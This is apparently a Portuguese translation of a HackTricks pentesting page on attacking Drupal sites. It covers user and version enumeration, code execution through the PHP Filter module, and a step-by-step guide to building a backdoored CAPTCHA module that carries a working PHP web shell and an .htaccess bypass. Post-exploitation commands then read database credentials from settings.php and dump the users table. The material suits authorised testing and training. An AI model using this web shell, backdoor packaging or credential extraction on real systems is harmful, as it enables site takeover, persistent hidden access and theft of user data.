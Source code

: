 # Drupal

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Discovery

* Verifique **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Nó**: O Drupal **indexa seu conteúdo usando nós**. Um nó pode **armazenar qualquer coisa** como uma postagem de blog, enquete, artigo, etc. As URIs das páginas geralmente têm a forma `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Enumeração

O Drupal suporta **três tipos de usuários** por padrão:

1. **`Administrador`**: Este usuário tem controle total sobre o site Drupal.
2. **`Usuário Autenticado`**: Esses usuários podem fazer login no site e realizar operações como adicionar e editar artigos com base em suas permissões.
3. **`Anônimo`**: Todos os visitantes do site são designados como anônimos. Por padrão, esses usuários só podem ler postagens.

### Versão

* Verifique `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
As novas instalações do Drupal, por padrão, bloqueiam o acesso aos arquivos `CHANGELOG.txt` e `README.txt`.
{% endhint %}

### Enumeração de nomes de usuário

#### Registrar

Em _/user/register_ basta tentar criar um nome de usuário e se o nome já estiver em uso, você será notificado:

![](<../../.gitbook/assets/image (254).png>)

#### Solicitar nova senha

Se você solicitar uma nova senha para um nome de usuário existente:

![](<../../.gitbook/assets/image (255).png>)

Se você solicitar uma nova senha para um nome de usuário inexistente:

![](<../../.gitbook/assets/image (256).png>)

### Obter número de usuários

Acessando _/user/\<number>_ você pode ver o número de usuários existentes, neste caso são 2, pois _/users/3_ retorna um erro de não encontrado:

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### Páginas ocultas

**Fuzz `/node/$` onde `$` é um número** (de 1 a 500, por exemplo).\
Você pode encontrar **páginas ocultas** (teste, desenvolvimento) que não são referenciadas pelos mecanismos de busca.

#### Informações sobre módulos instalados
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automático
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Com o Módulo Filtro PHP

{% hint style="warning" %}
Nas versões mais antigas do Drupal **(antes da versão 8)**, era possível fazer login como administrador e **ativar o módulo `PHP filter`**, que "Permite que trechos de código PHP embutidos sejam avaliados."
{% endhint %}

Você precisa que o **plugin php esteja instalado** (verifique acessando _/modules/php_ e se retornar um **403**, então **existe**, se **não encontrado**, então o **plugin php não está instalado**)

Vá para _Módulos_ -> (**Verifique**) _Filtro PHP_ -> _Salvar configuração_

![](<../../.gitbook/assets/image (247) (1).png>)

Em seguida, clique em _Adicionar conteúdo_ -> Selecione _Página Básica_ ou _Artigo_ -> Escreva _código shell php no corpo_ -> Selecione _Código PHP_ em _Formato de texto_ -> Selecione _Visualizar_

![](<../../.gitbook/assets/image (253) (1).png>)

Finalmente, acesse o nó recém-criado:
```bash
curl http://drupal-site.local/node/3
```
### Instalar o Módulo PHP Filter

A partir da versão **8 em diante, o** [**módulo PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **não é instalado por padrão**. Para aproveitar essa funcionalidade, teríamos que **instalar o módulo por conta própria**.

1. Baixe a versão mais recente do módulo no site do Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Após o download, vá para **`Administração`** > **`Relatórios`** > **`Atualizações disponíveis`**.
3. Clique em **`Procurar`**, selecione o arquivo do diretório em que o baixamos e clique em **`Instalar`**.
4. Depois que o módulo for instalado, podemos clicar em **`Conteúdo`** e **criar uma nova página básica**, semelhante ao que fizemos no exemplo do Drupal 7. Novamente, certifique-se de **selecionar `Código PHP` no menu suspenso `Formato de texto`**.

### Módulo com Backdoor

Um módulo com backdoor pode ser criado **adicionando um shell a um módulo existente**. Os módulos podem ser encontrados no site drupal.org. Vamos escolher um módulo como o [CAPTCHA](https://www.drupal.org/project/captcha). Role para baixo e copie o link para o arquivo tar.gz [arquivo compactado](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Baixe o arquivo compactado e extraia seu conteúdo.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Criar um **shell web PHP** com o conteúdo:
```php
<?php
system($_GET["cmd"]);
?>
```
* Em seguida, precisamos criar um arquivo **`.htaccess`** para nos dar acesso à pasta. Isso é necessário, pois o Drupal nega acesso direto à pasta **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* A configuração acima aplicará regras para a pasta / quando solicitarmos um arquivo em /modules. Copie ambos esses arquivos para a pasta captcha e crie um arquivo compactado.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Ao assumirmos **acesso administrativo** ao site, clique em **`Gerenciar`** e depois em **`Estender`** na barra lateral. Em seguida, clique no botão **`+ Instalar novo módulo`**, e seremos levados para a página de instalação, como `http://drupal-site.local/admin/modules/install`. Navegue até o arquivo backdoored Captcha e clique em **`Instalar`**.
* Após a instalação bem-sucedida, navegue até **`/modules/captcha/shell.php`** para executar comandos.

## Pós Exploração

### Ler settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Extrair usuários do BD
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referências

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
